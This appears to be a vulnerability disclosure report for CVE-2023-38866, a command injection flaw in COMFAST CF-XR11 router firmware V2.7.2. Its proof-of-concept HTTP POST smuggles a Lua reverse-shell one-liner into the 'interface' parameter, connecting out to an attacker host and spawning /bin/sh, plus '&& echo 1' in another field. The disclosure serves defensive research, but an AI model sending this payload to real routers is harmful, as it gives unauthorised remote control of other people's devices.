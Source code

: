 # CVE-ID

[cve-2023-38866](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-38866)

# Information

**Vendor of the products:**  COMFAST

**Vendor's website:**  http://www.comfast.cn/

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com)) & w4rd3n(w4rd3n.iadc@gmail.com)

**Affected products:** COMFAST CF-XR11

**Affected firmware version:** V2.7.2

**Firmware download address:** http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar

# Overview

`COMFAST CF-XR11 V2.7.2` has a command injection vulnerability detected at function `sub_415588`. Attackers can send `POST` request messages to `/usr/bin/webmgnt` and inject evil commands into parameter `interface`  and `display_name` to execute arbitrary commands by URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=update_interface_png`.

# Product parameters

`COMFAST CF-XR11 V2.7.2` is an 1800Mbps smart MESH router. The test version(the newest version) here is `V2.7.2`.

<img src="imgs/1.png" style="zoom:67%;" />

# Vulnerability details

The vulnerability is detected at `/usr/bin/webmgnt`.

In the function `sub_415588`, the program uses function `blobmsg_parse` to obtain the content of parameter `interface`, `display_name` which are sent by `POST` request. On line 22, the attacker can complete command execution by controlling the `interface` or `display_name` variable.

![](imgs/2.png)

# POC

Send the following to the URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=update_interface_png` by `POST` request.

```
POST /cgi-bin/mbox-config?method=SET&section=update_interface_png HTTP/1.1
Host: 192.168.0.1
Content-Length: 181
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: appliation/json
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=f200a8c0-581cfffffff8ffffff90ffffffd044-65dafb23
Connection: close

{"interface":" `lua -e \"require('socket');require('os');t=socket.tcp();t:connect('192.168.0.228','9999');os.execute('/bin/sh -i <&3 >&3 2>&3 &');\"`",
	"display_name":"&& echo 1"}
```

# Attack Demo

After sending the POC, the malicious command will be executed and we can get the router's shell.

![](imgs/3.png)

![](imgs/4.png)

